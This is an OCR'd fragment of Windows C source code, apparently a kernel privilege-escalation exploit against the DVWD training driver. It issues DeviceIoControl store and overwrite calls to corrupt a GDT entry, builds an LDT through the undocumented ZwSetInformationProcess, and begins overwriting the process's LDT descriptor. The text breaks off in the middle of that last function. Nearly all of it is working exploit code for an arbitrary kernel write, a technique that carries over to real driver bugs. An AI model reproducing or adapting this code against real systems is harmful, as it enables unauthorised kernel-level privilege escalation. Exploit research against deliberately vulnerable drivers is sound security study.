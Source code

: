```
 hFile = CreateFile(L"\\\\.\\DVWD", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE | FILE_SHARE_READ | FILE_SHARE_DELETE, NULL, OPEN_EXISTING, 0, NULL);

 if(hFile != INVALID_HANDLE_VALUE) {
  overwrite.Size = 8;
  overwrite.StorePtr = (PVOID)&storage;
  ret = DeviceIoControl(hFile, DEVICEIO_DVWD_STORE, &overwrite, 0, NULL, 0, &dwReturn, NULL);

  overwrite.Size = 8;
  overwrite.StorePtr = (PVOID)KGDTEntry;
  ret = DeviceIoControl(hFile, DEVICEIO_DVWD_OVERWRITE, &overwrite, 0, NULL, 0, &dwReturn, NULL);

  CloseHandle(hFile);

  return TRUE;
 }

 return FALSE;
}


// Create a new LDT using ZwSetInformationProcess ----------------------------------
BOOL SetLDTEnv(VOID) {

 NTSTATUS retStatus;
 LDT_ENTRY eLdt;
 PROCESS_LDT_INFORMATION infoLdt; 
 _ZwSetInformationProcess ZwSetInformationProcess;

 // Retrieve the address of the undocumented syscall ZwSetInformationProcess()
 ZwSetInformationProcess = (_ZwSetInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "ZwSetInformationProcess");

 if(!ZwSetInformationProcess)
  return FALSE;

 // Create and initialize a new LDT
 RtlZeroMemory(&eLdt, sizeof(LDT_ENTRY));

 RtlCopyMemory(&(infoLdt.LdtEntries[0]), &eLdt, sizeof(LDT_ENTRY));
 infoLdt.Start = 0;
 infoLdt.Length = sizeof(LDT_ENTRY);

 retStatus = ZwSetInformationProcess(GetCurrentProcess(), 
             ProcessLdtInformation, 
             &infoLdt, 
             sizeof(PROCESS_LDT_INFORMATION));

 if(retStatus != STATUS_SUCCESS)
  return FALSE;

 return TRUE;
}


#define LDT_DESC_FROM_KPROCESS 0x20
ULONG64 LDTDescStorage32=0;

// Main function -------------------------------------------------------------------
BOOL LDTDescOverwrite32(VOID) {

 PVOID kprocess,kprocessLDTDesc;
 PLDT_ENTRY pLDTDesc = (PLDT_ENTRY)&LDTDescStorage32;
```
